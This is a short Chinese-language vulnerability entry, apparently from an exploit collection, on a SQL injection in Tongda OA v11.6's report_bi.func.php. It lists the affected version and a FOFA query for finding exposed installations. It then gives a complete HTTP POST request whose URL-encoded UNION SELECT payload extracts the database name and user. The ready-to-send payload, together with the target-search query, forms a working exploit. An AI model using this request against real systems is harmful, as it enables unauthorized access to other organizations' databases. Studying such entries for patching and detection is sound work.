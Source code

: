 # 通达OA v11.6 report_bi.func.php SQL注入漏洞

## 漏洞描述

通达OA v11.6 report_bi.func.php 存在SQL注入漏洞，攻击者通过漏洞可以获取数据库信息

## 漏洞影响

```
通达OA v11.6
```

## FOFA

```
app="TDXK-通达OA"
```

## 漏洞复现

登陆页面

![image-20220520154236968](./images/202205201542062.png)

发送请求包执行SQL语句

```
POST /general/bi_design/appcenter/report_bi.func.php HTTP/1.1
Host: 
User-Agent: Go-http-client/1.1
Content-Length: 113
Content-Type: application/x-www-form-urlencoded
Accept-Encoding: gzip

_POST[dataset_id]=efgh%27-%40%60%27%60%29union+select+database%28%29%2C2%2Cuser%28%29%23%27&action=get_link_info&
```

![image-20220520154246274](./images/202205201542313.png)